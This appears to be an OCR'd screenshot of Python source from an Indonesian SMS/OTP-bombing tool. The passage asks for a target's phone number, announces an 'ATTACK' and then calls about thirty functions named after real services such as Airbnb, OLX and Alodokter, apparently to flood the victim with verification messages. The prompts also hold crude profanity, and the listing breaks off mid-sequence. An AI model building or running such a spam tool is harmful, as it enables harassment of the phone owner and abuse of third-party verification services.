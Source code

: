   try:
      nom=str(input(f"{kun}[{kan}•{kun}] {im}Masukkan ukuran kontol kalian maaf mksudnya nomor hp (contoh:813581) : "))
      if len(nom) <= 5: print (f"{kun}[{kan}•{kun}] {kun}Mohon, masukkan no telp dengan benar ASU jancok");main.start()
      print (f"\r{kun}[{kan}•{kun}] {kan}Ok, memulai ATTACK ...")
      print (f"{kun}[{kan}•{kun}] {im}Target : {kon}{nom}")
      spam.piza(nom)
      loding()
      spam.map(nom)
      loding()
      spam.mypoin(nom)
      loding()
      spam.icq(nom)
      loding()
      spam.adakami(nom)
      loding()
      spam.coowry(nom)
      loding()
      spam.iuga(nom)
      loding()
      spam.fav(nom)
      loding()
      spam.suplai(nom)
      loding()
      spam.chataja(nom)
      loding()
      spam.depop(nom)
      loding()
      spam.ruparupa(nom)
      loding()
      spam.dekoruma(nom)
      loding()
      spam.jag(nom)
      loding()
      spam.airbnb(nom)
      loding()
      spam.kelaspintar(nom)
      loding()
      spam.payfazz(nom)
      loding()
      spam.alodokter(nom)
      loding()
      spam.prosehat(nom)
      loding()
      spam.theharvest(nom)
      loding()
      spam.danacinta(nom)
      loding()
      spam.redbus(nom)
      loding()
      spam.olx(nom)
      loding()
      spam.rupiahcepat(nom)
      loding()
      spam.matahari(nom)
      loding()
      spam.iviru(nom)
      loding()
      spam.beltelecom(nom)
      loding()
      spam.mailru(nom)
      loding()
      spam.youla(nom)